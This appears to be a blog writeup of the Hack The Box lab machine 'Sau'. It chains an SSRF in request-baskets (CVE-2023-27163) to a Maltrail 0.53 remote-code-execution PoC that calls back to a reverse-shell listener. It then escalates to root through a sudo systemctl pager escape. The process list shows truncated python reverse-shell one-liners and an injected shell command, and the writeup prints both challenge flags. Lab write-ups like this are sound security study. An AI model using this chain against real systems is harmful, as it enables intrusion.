 ```yaml
---
layout: post
title: Sau HTB - Writeup
categories: [HTB]
tags: [htb,web,htb easy,linux,cve,ssrf,rce,gtfobins]
image:
  path: /images/htb/easy/sau/icon.png
---
```


A retiring linux easy machine, trying to do one a day!

**Machine created by:** [sau123](https://app.hackthebox.com/users/201596)

## Recon

Starting with a nmap scan of the IP, we see 3 open ports.

```
$ sudo nmap 10.10.11.224 --top-ports 1000
Starting Nmap 7.94 ( https://nmap.org ) at 2024-01-02 17:22 AEDT
Nmap scan report for 10.10.11.224
Host is up (0.011s latency).
Not shown: 997 closed tcp ports (reset)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

Lets edit our `/etc/hosts` and add a new entry.

```
10.10.11.224 sau.htb
```

Trying to load [sau.htb:80](http://sau.htb:80) failed, so I take a look at port 55555 and load [sau.htb:55555](http://sau.htb:55555) and see a `request-baskets` instance.

![request-baskets Instance](/images/htb/easy/sau/request-baskets.png)

## Exploitation

I look for any CVEs related to `request-baskets` and find a [PoC for CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163) which is an SSRF vulnerability. We can maybe access that port 80 service we can't seem to reach.

```
$ ./CVE-2023-27163.sh http://sau.htb:55555/ http://localhost:80/
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "bameet" proxy basket...
> Basket created!
> Accessing http://sau.htb:55555/bameet now makes the server request to http://localhost:80/.
> Authorization: NM2Y9TQKkreZV-x6IjfYLsjs55W-g6JJ3YlDeB6b1kSc
```

Visiting the request bin shows us a broken instance of Mailtrail (v0.53).

![Mailtrail Instance](/images/htb/easy/sau/mailtrail.png)

## Initial Access & User Flag

Looking online there is a vulnerability for Mailtrail, and find a [PoC](https://packetstormsecurity.com/files/174129/Maltrail-0.53-Remote-Code-Execution.html) which is an RCE.

I set up a reverse shell listener...

```
$ pwncat-cs
[16:41:49] Welcome to pwncat 🐈!
(local) pwncat$ listen --host -m linux 10.10.***.*** 4444
[16:41:53] new listener created for 10.10.***.***:4444
(local) pwncat$
```

and execute the PoC...

```
$ python3 MailTrailv053.py 10.10.***.*** 4444 http://sau.htb:55555/bameet
Running exploit on http://sau.htb:55555/bameet/login
```

And I see a shell!

```
[18:09:07] 10.10.11.224:54314: upgrading from /usr/bin/dash to /usr/bin/bash
           10.10.11.224:54314: registered new host w/ db 
           listener: 10.10.16.9:4444: linux session from 10.10.11.224:54314
           established
```

After changing to the shell I notice i'm the user `puma`, I then navigate to the user directory of `puma`:
```
(remote) puma@sau:/opt/maltrail$ cd /home/puma
(remote) puma@sau:/home/puma$ cat user.txt
70e0259608b4b058ee6e83c02f83554b
```

There's the user flag <mark>70e0259608b4b058ee6e83c02f83554b</mark>!

## Root Flag

Checking `sudo -l` gives the following:

```
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

Looking at [GTFOBins entry for systemctl](https://gtfobins.github.io/gtfobins/systemctl/#sudo) under the Sudo permission, there are some exploits.

The most promising one is option (c) due to our limited sudoers line.

I attempt the exploit:

```
(remote) puma@sau:/home/puma$ sudo /usr/bin/systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2024-01-01 10:14:15 UTC; 21h ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 893 (python3)
      Tasks: 75 (limit: 4662)
     Memory: 384.2M
     CGroup: /system.slice/trail.service
             ├─  893 /usr/bin/python3 server.py
             ├─ 2476 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2478 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2486 sh
             ├─ 2487 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2488 /bin/sh
             ├─ 2510 sudo /usr/bin/systemctl status trail.service
             ├─ 2512 /usr/bin/systemctl status trail.service
             ├─ 2513 pager
             ├─ 2515 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2516 /bin/sh -c logger -p auth.info -t "maltrail[893]" "Failed password for ;`echo ">
             ├─ 2519 sh
             ├─ 2520 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STRE>
             ├─ 2521 /bin/sh
!sh
# whoami
root
# cd /root/root.txt
9d5259dd1993658152d9863c78564c1e
```

And there's the root flag: <mark>9d5259dd1993658152d9863c78564c1e</mark>!

![Success](/images/htb/easy/sau/submitted.png)

## Thanks for reading!
Feel free to give me feedback or follow me on [Twitter](https://twitter.com/sealldev).

You can also find my other contacts on the [whoami](../about) page.